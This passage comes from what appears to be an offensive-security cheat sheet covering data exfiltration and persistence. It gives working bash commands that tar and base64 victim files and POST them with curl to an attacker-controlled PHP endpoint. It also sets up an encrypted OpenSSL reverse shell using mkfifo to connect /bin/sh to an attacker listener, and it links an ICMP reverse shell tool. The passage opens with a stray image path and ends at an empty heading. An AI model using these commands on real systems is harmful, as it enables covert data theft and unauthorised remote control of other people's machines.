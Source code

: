 2. This automatically untars the files on the attacker side and lets us check the /tmp/data folder  

### Exfil via POST over HTTPs  

1. **Attacker** provides http server that dumps POST data locally  

```bash
<?php file_put_contents('/tmp/data.base64', file_get_contents('php://input')); ?>  

# start local php via
php -S 0.0.0.0:8000
```

2. **Victim**: `curl` all data via POST to the attacker page  

```bash
curl --data "$(tar zcf - /tmp/data | base64)" https://<attackerIP>/contact.php
```
 
3. **Attacker** machine dumps the data  

```bash
cat /tmp/data.base64 | base64 -d > data.tar && tar xf data.tar
```

## Maintain Access & Persistence  

> Keep your foot in the door...  

### OpenSSL reverse shell  

> With named pipes `mkfifo` 

1. Create keys on our listener on the attacker machine  

```bash
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

2. Start the listener on the attacker  

```bash
openssl s_server -quiet -key key.pem -cert cert.pem -port 443
``` 

3. Make a named_pipe and link the I/O to openssl client  

```bash
mkfifo /tmp/x; /bin/sh -i < /tmp/x 2>&1 | openssl s_client -quiet -connect <attackerIP>:443 > /tmp/x; rm /tmp/x
```

4. Profit!  

### ICMP reverse shell

[SOURCE](https://github.com/bdamele/icmpsh)  

### Others  
